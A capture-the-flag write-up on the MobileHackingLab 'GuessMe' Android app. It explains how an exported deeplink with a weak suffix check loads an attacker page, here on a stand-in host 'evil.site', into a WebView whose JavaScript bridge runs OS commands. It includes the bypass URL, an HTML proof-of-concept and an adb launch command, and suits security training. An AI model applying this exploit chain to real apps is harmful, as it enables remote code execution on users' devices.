






# MobileHackingLab - GuessMe

## Static Analysis

After decompiling the APK, I noticed that WebviewActivity is exported in the Android manifest and implements a deeplink via `mhl://mobilehackinglab` URI:



Analyzing the decompiled `com.mobilehackinglab.guessme.WebviewActivity` class, I noticed that the webview is using a Javascript Interface `MyJavascriptInterface`:



This Javascript interface has a vulnerable implementation for the bridged method `getTime` since it uses an user input not validated or sanitized to execute an OS command:



Moreover, the deeplink implementation fails to properly check the target URL for the WebView, since it only checks that the value from the query param `url` ends with `mobilehacking.com`:



## Exploitation

An attacker could inject any URL that will be then passed to the WebView as URL, bypassing the check as follows:

```
mhl://mobilehackinglab?url=evil.site/exploit.html%23mobilehackinglab.com
```

In order to exploit the unsafe Javascript Interface, an attacker could host an evil http page and make the web view open it. Following a PoC code:

```html
<h1>Evil Command Injector :D</h1>

<label>Command:</label<>
<input id="command" type="text" value=""/>

<button onclick="const res = AndroidBridge.getTime(document.getElementById('command').value); alert(res)" >Run Command</button>

```

When the button is clicked, the command set as value in the input will be run by invoking `AndroidBridge.getTime`.

After running:

```
adb shell am start -a android.intent.action.VIEW -d 'mhl://mobilehackinglab?url=evil.site/exploit.html%23mobilehackinglab.com'
```

the application will open the evil site web page:




After clicking the "Run Command":



A Remote Code Execution is obtained.